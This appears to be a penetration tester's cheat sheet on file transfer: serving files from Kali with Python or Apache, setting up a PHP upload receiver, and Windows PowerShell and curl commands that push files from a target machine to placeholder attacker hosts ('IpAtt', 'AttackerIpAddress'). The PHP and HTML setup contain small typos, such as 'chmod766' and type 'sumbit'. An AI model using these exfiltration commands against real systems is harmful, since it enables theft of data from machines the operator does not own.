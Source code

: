 # File transfer

## Download

source: https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

### Python

```
python -m http.server 8080
```
### Apache

```
mv somefile /var/www/html
systemctl start apache2
```

## Upload

sources: 
- https://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9
- https://davidhamann.de/2019/04/12/powershell-invoke-webrequest-by-example/
- https://stackoverflow.com/questions/22491129/how-to-send-multipart-form-data-with-powershell-invoke-restmethod

### Php on Kali

```
vim upload.php

<?php
  $target_dir = "uploads/";
  $target_file = $target_dir . basename($_FILES["targetfile"]["name"]);
  move_uploaded_file($_FILES["targetfile"]["tmp_name"], $target_file)
?>

mv upload.php /var/www/html

mkdir /var/www/html/uploads
chown www-data.www-data /var/www/html/uploads
chmod766 /var/www/html/uploads

systemctl start apache2
```

### On Windows

```
powershell -nop -exec bypass Invoke-RestMethod -Uri http://IpAtt/upload.php -Method Post -Infile 'c:\path\to\file.txt'
```
or
```
curl -H Content-Type:"multipart/form-data" --form targetfile=@"c:\path\to\file.txt" -X Post -v http://IpAtt/upload.php
```
or
```
$fieldName = 'targetfile' # name of the field in upload.php
$filePath = 'C:\full\path\to\file.txt' # full path...
$url = 'http://AttackerIpAddress/upload.php'

Add-Type -AssemblyName 'System.Net.Http'

$client = New-Object System.Net.Http.HttpClient
$content = New-Object System.Net.Http.MultipartFormDataContent
$fileStream = [System.IO.File]::OpenRead($filePath)
$fileName = [System.IO.Path]::GetFileName($filePath)
$fileContent = New-Object System.Net.Http.StreamContent($fileStream)
$content.Add($fileContent, $fieldName, $fileName)
$result = $client.PostAsync($url, $content).Result
```

### Http on Kali

```
vim upload.html

<html>
  <head></head>
  <body>
    <form action="http://IpAtt/upload.php" method="POST" enctype="multipart/form-data">
      <br><br>
      Choose a file: <br>
      <input type="file" name="targetfile"><br>
      <input type="sumbit" name="submit" value="upload">
    </form>
  </body>
</html>
```
To upload on a browser at `http://AttackerIpAddress/upload.html`




